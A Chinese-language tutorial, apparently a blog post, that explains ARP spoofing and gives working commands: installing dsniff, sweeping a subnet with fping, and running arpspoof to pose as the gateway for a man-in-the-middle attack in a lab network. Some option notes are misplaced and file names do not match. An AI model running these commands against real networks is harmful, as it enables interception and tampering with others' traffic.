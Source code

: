 #### 例1 利用arpspoof进行arp欺骗攻击

> 1. **发送伪造的 ARP 响应**
>    ：
>    **arpspoof**
>    可以发送伪造的 ARP 响应到局域网中的特定设备。这些响应会错误地告诉其他设备攻击者的计算机是网络上的某个特定设备（例如网关）。
> 2. **中间人攻击**
>    ：通过将自己伪装成网络中的一个节点（例如路由器），攻击者可以拦截、查看或修改经过的数据包。
> 3. **网络流量重定向**
>    ：通过修改 ARP 缓存，
>    **arpspoof**
>    可以使网络流量通过攻击者的设备，而不是实际目标设备。

```bash
例：
sudo arpspoof -i [接口] -t [目标IP] [网关IP]
-a：这个选项让 fping 只显示响应的主机（即那些活动的或在线的主机）。
-s：此选项会在扫描结束后显示扫描的总结信息，包括发送的总请求数、接收的回应数、丢失的请求数等。
-g：这是一个重要的选项，用于指定要扫描的 IP 地址范围。fping 将会对这个范围内的每个 IP 地址发送一个 ICMP 回声请求。
┌──(newrain㉿kali)-[~/Desktop]
└─$ sudo apt install dsniff  # 安装arpspoof
[接口] kali的接口为eth0 虚拟机接口一般为ens33 

```

```bash
# 查看当前网段的所有地址
┌──(newrain㉿kali)-[~/Desktop]
└─$ fping -asg 192.168.75.0/24 > iplist.txt
┌──(newrain㉿kali)-[~/Desktop]
└─$ cat a.txt                         
192.168.75.1
192.168.75.2
192.168.75.225
192.168.75.231

```

> kali启动arp攻击
>
> 输入：arpspoof -i eth0 -t 目标IP 网关IP

```bash
若登陆的是root用户就不用加sudo
例如 ： arpspoof -i eth1 -t 192.168.75.225 192.168.75.2

```

![image.png](https://i-blog.csdnimg.cn/blog_migrate/e5ecf67431380f1cc3d0c7d83e4006ad.png)

> 关闭攻击后恢复正常

![image.png](https://i-blog.csdnimg.cn/blog_migrate/86d2629dfee907cb11617ed1dbacd0df.png)

利用虚拟机进行攻击要先下载yum包

